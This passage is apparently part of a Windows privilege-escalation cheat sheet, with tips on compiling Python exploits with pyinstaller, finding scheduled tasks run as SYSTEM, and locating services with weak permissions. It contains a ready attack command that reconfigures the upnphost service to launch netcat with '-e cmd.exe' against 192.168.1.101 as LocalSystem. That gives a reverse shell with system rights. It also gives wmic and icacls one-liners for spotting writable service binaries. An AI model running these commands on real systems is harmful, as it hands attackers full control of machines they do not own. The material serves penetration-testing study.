 ##### Python to Binary
If we have an exploit written in python but we don't have python installed on the victim-machine we can always transform it into a binary with pyinstaller. Good trick to know.

## Scheduled Tasks
Here we are looking for tasks that are run by a privileged user, and run a binary that we can overwrite.

    schtasks /query /fo LIST /v

This might produce a huge amount of text. I have not been able to figure out how to just output the relevant strings with findstr. So if you know a better way please notify me. As for now I just copy-paste the text and past it into my linux-terminal.
Yeah I know this ain't pretty, but it works. You can of course change the name SYSTEM to another privileged user.

    cat schtask.txt | grep "SYSTEM\|Task To Run" | grep -B 1 SYSTEM

## Change the upnp service binary

    sc config upnphost binpath= "C:\Inetpub\nc.exe 192.168.1.101 6666 -e c:\Windows\system32\cmd.exe"
    sc config upnphost obj= ".\LocalSystem" password= ""
    sc config upnphost depend= ""

## Weak Service Permissions
Services on windows are programs that run in the background. Without a GUI.

If you find a service that has write permissions set to **everyone** you can change that binary into your custom binary and make it execute in the privileged context.

First we need to find services. That can be done using **wmci** or **sc.exe**. Wmci is not available on all windows machines, and it might not be available to your user. If you don't have access to it, you can use sc.exe.

### WMCI
    
    wmic service list brief
T
his will produce a lot out output and we need to know which one of all of these services have weak permissions. In order to check that we can use the icacls program. Notice that icacls is only available from Vista and up. XP and lower has cacls instead.

As you can see in the command below you need to make sure that you have access to **wimc**, **icacls** and write privilege in **C:\windows\temp**.

    for /f "tokens=2 delims='='" %a in ('wmic service list full^|find /i "pathname"^|find /i /v "system32"') do @echo %a >> c:\windows\temp\permissions.txt

    for /f eol^=^"^ delims^=^" %a in (c:\windows\temp\permissions.txt) do cmd.exe /c icacls "%a"

Binaries in system32 are excluded since they are mostly correct, since they are installed by windows.

### sc.exe
